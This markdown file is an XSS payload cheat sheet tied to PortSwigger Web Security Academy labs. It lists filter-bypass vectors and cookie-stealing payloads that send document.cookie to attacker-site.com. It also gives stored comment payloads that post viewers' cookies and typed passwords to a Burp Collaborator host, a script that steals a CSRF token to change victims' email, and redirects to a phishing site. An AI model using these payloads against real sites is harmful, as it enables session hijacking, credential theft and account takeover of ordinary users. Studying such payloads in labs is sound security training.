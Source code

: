 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<§§>                                 --// https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<script>alert(1)</script>
${alert(1)}                          --// document.getElementById('searchMessage').innerText = message;
<custom-tag> or <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
http://foo?&apos;-alert(1)-&apos;    --//write into the "website input" (comments)
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
<><img src=1 onerror=alert(1)>       --// the website uses the JavaScript replace() function to encode angle brackets
\"-alert(1)}//                       --// the string is reflected in a JSON response called search-results
{{$on.constructor('alert(1)')()}}    --// if your random string is enclosed in an ng-app directive.
```

### Obtain cookies or tokens:

```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));

<img src=x onerror="fetch('https://attacker-site.com/?c='+document.cookie)">

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104...));</script>

<script>(()=>{fetch('https://attacker-site.com/?c='+document.cookie)})()</script>

<script src="https://attacker-site.com/malicious.js"></script> //import from another site

let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);

navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
--------------------------------------------
#### post this in the comment section - it will send all cookies for all viewers this comment:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
### XSS redirect to another site options:
```
--------------------------------------------
#### post this payload in the blog comment section - 
script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
--------------------------------------------
#### Submit the following payload in the comment section
This will make anyone who views the comment issue a POST request to change their email address to test@test.com:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
--------------------------------------------
### XSS to redirect or view another site on the target site:
```
<script>window.location.href = "https://phishing-site.com";</script>

<script>window.location.replace("https://phishing-site.com");</script>

<script>window.location.assign("https://phishing-site.com");</script>

<meta http-equiv="refresh" content="0;url=https://phishing-site.com">

<body onload="window.location.href='https://phishing-site.com'">

<a href="#" onclick="window.location.href='https://phishing-site.com'">Click here</a>

<iframe src="https://phishing-site.com" style="display:none;"></iframe>
```
